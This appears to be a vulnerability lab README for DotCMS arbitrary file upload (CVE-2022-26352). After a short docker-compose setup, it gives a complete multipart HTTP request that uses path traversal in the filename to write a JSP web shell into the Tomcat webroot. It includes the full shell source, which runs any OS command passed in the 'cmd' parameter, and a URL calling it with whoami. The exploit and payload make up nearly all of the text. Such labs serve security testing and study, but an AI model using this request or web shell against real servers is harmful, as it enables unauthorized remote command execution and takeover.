


### DotCMS Arbitrary File Upload  (CVE-2022-26352)

Reference:  https://blog.assetnote.io/2022/05/03/hacking-a-bank-using-dotcms-rce/	

#### Environment Setup

```
`docker-compose up -d`
```

visiting `https://your-ip:8443/dotAdmin` to see the login page.

#### Exploit

```
POST /api/content/ HTTP/1.1
Host: your-ip:8443
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 1152
Content-Type: multipart/form-data; boundary=------------------------aadc326f7ae3eac3
Accept-Encoding: gzip, deflate
Connection: close

--------------------------aadc326f7ae3eac3
Content-Disposition: form-data; name="name"; filename="../../../../../../../../../srv/dotserver/tomcat-9.0.41/webapps/ROOT/webshell.jsp"
Content-Type: text/plain

<%@ page import="java.util.*,java.io.*"%>
<%
%>
<HTML><BODY>
Commands with JSP
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
    out.println("Command: " + request.getParameter("cmd") + "<BR>");
    Process p;
    if ( System.getProperty("os.name").toLowerCase().indexOf("windows") != -1){
        p = Runtime.getRuntime().exec("cmd.exe /C " + request.getParameter("cmd"));
    }
    else{
        p = Runtime.getRuntime().exec(request.getParameter("cmd"));
    }
    OutputStream os = p.getOutputStream();
    InputStream in = p.getInputStream();
    DataInputStream dis = new DataInputStream(in);
    String disr = dis.readLine();
    while ( disr != null ) {
    out.println(disr);
    disr = dis.readLine();
    }
}
%>
</pre>
</BODY></HTML>
--------------------------aadc326f7ae3eac3--
```



`https://your-ip:8443/webshell.jsp?cmd=whoami`


